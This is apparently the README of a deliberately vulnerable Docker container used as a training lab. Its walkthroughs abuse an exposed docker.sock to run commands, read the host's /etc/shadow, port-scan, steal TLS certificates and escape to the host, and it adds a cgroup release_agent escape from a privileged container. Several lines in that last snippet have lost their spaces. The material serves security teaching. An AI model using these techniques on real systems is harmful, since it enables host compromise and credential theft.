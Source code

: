 # Vulnerable Docker Container

## Getting Started

```
$ docker build --tag dvdc:1.0 .
$ docker run -d --network host -v /var/run/docker.sock:/var/run/docker.sock --name dvdc dvdc:1.0
```

## Exercises

### Docker Sockets

#### Exercise 1: Querying the API

In this exercise, the host's docker.sock will be exposed to the container. To get started, drop into a local shell:
```
docker exec -it dvdc /bin/bash
```

With the exposed socket you can make API calls to query running containers, start new containers, and even break out to the host. In this exercises, try to find out what version of Docker is running using the API.

<details>
    <summary>Walkthrough</summary>
    
    # Check if the docker socket is mounted
    user@66a0d5faa124:/# file /var/run/docker.sock
    /var/run/docker.sock: socket

    # Check if it's writable
    user@66a0d5faa124:~$ ls -l /var/run/docker.sock
    srw-rw---- 1 root users 0 Jul  6 03:24 /var/run/docker.sock
    user@66a0d5faa124:~$ groups
    user users giddy

    # Query the API
    user@66a0d5faa124:/# curl --unix-socket /var/run/docker.sock http://localhost/version
    {"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"18.09.6","Details":{"ApiVersion":"1.39","Arch":"amd64","BuildTime":"2019-05-04T02:41:08.000000000+00:00","Experimental":"false","GitCommit":"481bc77","GoVersion":"go1.10.8","KernelVersion":"4.14.116-boot2docker","MinAPIVersion":"1.12","Os":"linux"}}],"Version":"18.09.6","ApiVersion":"1.39","MinAPIVersion":"1.12","GitCommit":"481bc77","GoVersion":"go1.10.8","Os":"linux","Arch":"amd64","KernelVersion":"4.14.116-boot2docker","BuildTime":"2019-05-04T02:41:08.000000000+00:00"}
</details>

<details>
    <summary>GIDding around</summary>

    # Sometimes the GID the group that can write to /var/run/docker.sock inside the container might show up as a number, i.e:
    # srw-rw---- 1 root 967 0 Jul  6 03:24 /var/run/docker.sock
    # This is because the GID of the docker group on the host doesn't exist in the container.
    # The container user is a member of the "giddy" group which can be used with "groupadd", which has been given suid permissions, to grant the user write permissions on /var/run/docker.sock.
    # This can be done with the following command:
    groupmod -g {writable-gid} giddy # where {writable-gid} is the gid in your "ls -l /var/run/docker.sock" output
</details>

#### Exercise 2: Command execution

Now that we know we can query the API via the mounted socket we can use the exposed functionality to execute commands as the container's root user. You can use the `/exec` endpoint to accomplish this.

<details>
    <summary>Walkthrough</summary>

    # Send and execute a command
    user@66a0d5faa124:~$ curl -insecure -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/dvdc/exec -d '{"AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "touch /tmp/success"]}'
    HTTP/1.1 201 Created
    Api-Version: 1.39
    Content-Type: application/json
    Docker-Experimental: false
    Ostype: linux
    Server: Docker/18.09.6 (linux)
    Date: Mon, 06 Jul 2020 06:49:14 GMT
    Content-Length: 74

    {"Id":"dd8dd0cd94b8a3821eaa2b236f1a1c74a60e3c0f17857647f3d1cefc44b40c67"}
    user@66a0d5faa124:~$ curl -insecure -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/exec/dd8dd0cd94b8a3821eaa2b236f1a1c74a60e3c0f17857647f3d1cefc44b40c67/start -d '{}'
    HTTP/1.1 200 OK
    Content-Type: application/vnd.docker.raw-stream
    Api-Version: 1.39
    Docker-Experimental: false
    Ostype: linux
    Server: Docker/18.09.6 (linux)

    user@66a0d5faa124:~$ ls -la /tmp
    total 8
    drwxrwxrwt 1 root root 4096 Jul  6 06:50 .
    drwxr-xr-x 1 root root 4096 Jul  6 06:45 ..
    -rw-r--r-- 1 user user    0 Jul  6 06:50 success
</details>


#### Exercise 3: Reading the host filesystem

Code execution is great, but the API can be abused to create new containers and read the host filesystem. You can use the `/containers/create` endpoint to do this.
<details>
    <summary>Walkthrough</summary>

    # Deploy a new container called "escape", mount the host's filesystem to `/host` and then run `cat /host/etc/shadow`
    curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d'{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"

    # Start the container
    curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"

    # Read the output of the command
    curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"

    # Clean up
    curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
</details>

#### Exercise 4: Communicating with the Docker Daemon with static docker binaries

Now that you can read the host filesystem you can search for sensitive files. In secure docker environments, the dockerd service uses TLS and requires a client to verify itself with a private key. In this exercise, try to use a docker static binary (found [here](https://download.docker.com/linux/static/stable/)) to connect to the host daemon. If TLS is enforced, use the technique in exercise 3 to read the docker certificates and connect to the host daemon.

<details>
    <summary>Walkthrough</summary>

    # Find the IP address of the host
    user@default:~# ip a
    ... snip ...
    3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 08:00:27:02:66:09 brd ff:ff:ff:ff:ff:ff
        inet 192.168.99.102/24 brd 192.168.99.255 scope global eth1
           valid_lft forever preferred_lft forever
        inet6 fe80::a00:27ff:fe02:6609/64 scope link
           valid_lft forever preferred_lft forever
    ... snip ...
    
    # Find open ports
    user@default:~# for port in {1..65535}; do timeout 1 bash -c "echo > /dev/tcp/192.168.99.102/$port" >& /dev/null && echo "port $port is open"; done
    port 22 is open
    port 2376 is open
    port 32888 is open
    
    # Download docker static binaries
    user@default:~# wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.0.tgz
    Resolving download.docker.com (download.docker.com)... 13.224.180.114, 13.224.180.65, 13.224.180.2, ...
    Connecting to download.docker.com (download.docker.com)|13.224.180.114|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 63255038 (60M) [application/x-tar]
    Saving to: 'docker-19.03.0.tgz'
    
    docker-19.03.0.tgz                       100%[================================================================================>]  60.32M  5.22MB/s    in 11s
    
    2020-07-06 23:16:21 (5.49 MB/s) - 'docker-19.03.0.tgz' saved [63255038/63255038]
    
    # Try to connect to the host
    user@default:~# ./docker/docker -H 192.168.99.102:2376 version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.40
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    Get http://192.168.99.102:2376/v1.40/version: net/http: HTTP/1.x transport connection broken: malformed HTTP response "\x15\x03\x01\x00\x02\x02".
    * Are you trying to connect to a TLS-enabled daemon without TLS?
    
    # Try again with tls enabled
    user@default:~# ./docker/docker -H 192.168.99.102:2376 --tls version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.40
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    The server probably has client authentication (--tlsverify) enabled. Please check your TLS client certification settings: Get https://192.168.99.102:2376/v1.40/version: remote error: tls: bad certificate
    
    # Using the technique shown in the previous exercise, find and read the docker certificates.
    # If you installed docker and docker-machine with brew on macos they might be located under `~/.docker/machine/certs/`
    user@default:~# ./docker/docker -H 192.168.99.102:2376 --tls --tlscert=./ca.pem --tlskey=./ca-key.pem version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.39 (downgraded from 1.40)
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    
    Server: Docker Engine - Community
     Engine:
      Version:          18.09.6
      API version:      1.39 (minimum version 1.12)
      Go version:       go1.10.8
      Git commit:       481bc77
      Built:            Sat May  4 02:41:08 2019
      OS/Arch:          linux/amd64
      Experimental:     false
</details>

#### Exercise 5: Breaking out

Being able to use the docker binary within the container allows you to more easily enumerate the environment, read the build history of containers deploy, new containers, and fully break out of the compromised container. In this exercise, use what you heave learned to deploy a new, privileged container which mounts the host file system by using the exposed docker daemon. Once deployed, drop into a shell with `docker exec` to interact with the filesystem.

### Privileged Mode

Docker has a special privileged mode which, if enabled with the `--privileged` flag, allows a container to access all host devices and kernel capabilities. This feature can be abused on linux hosts via `cgroups`.

The following is a quick and dirty way of getting out of a privileged k8 pod or docker container by using the cgroups release agent feature ([source](https://twitter.com/_fel1x/status/1151487051986087936))
```
(host) docker run -it --rm --privileged ubuntu:latest bash
(cont)# d=`dirname$(ls -x /s*/fs/c*/*/r* |head -n1)`
(cont)# mkdir -p $d/w
(cont)# echo 1 >$d/w/notify_on_release
(cont)# t=`sed -n's/.*\perdir=\([^,]*\).*/\1/p'/etc/mtab`
(cont)# touch /o
(cont)# echo$t/c >$d/release_agent
(cont)# printf'#!/bin/sh\nps >'"$t/o" >/c
(cont)# chmod +x /c
(cont)# sh -c "echo 0 >$d/w/cgroup.procs"
(cont)# sleep 1
(cont)# cat /o
```

## Resources:
- [Abusing Docker API sockets](https://securityboulevard.com/2019/02/abusing-docker-api-socket/)
- [A Methodology for Penetration Testing Docker Systems](https://www.cs.ru.nl/bachelors-theses/2020/Joren_Vrancken___4593847___A_Methodology_for_Penetration_Testing_Docker_Systems.pdf)
- [Break out the Box](https://github.com/brompwnie/botb)
